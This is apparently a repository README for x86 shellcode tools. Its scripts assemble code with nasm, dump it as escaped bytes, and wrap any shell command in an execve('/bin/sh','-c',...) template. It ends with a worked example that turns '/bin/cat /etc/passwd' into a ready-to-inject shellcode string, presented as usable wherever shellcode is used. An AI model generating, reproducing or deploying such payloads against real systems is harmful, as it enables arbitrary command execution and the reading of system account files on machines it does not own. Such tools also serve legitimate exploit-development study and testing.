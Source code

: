 reversingtools - x86
====================
x86 Tools and Scripts - Probably don't use on OSX

<strong>comp_and_dump.sh</strong> - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with the '\x' character in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test). Now it cleans up the shl.o file and outputs the number of bytes to stderr so you can redirect to a file without getting the byte count in there.
<strong>packWord.pl</strong> - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)
<strong>doshcommandinssembly.pl</strong> - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

<strong>Example:</strong> ./doshcommandinassembly.pl /bin/cat /etc/passwd & ./comp_and_dump.sh<br>
<strong>Output:</strong> \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80<br>
The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen
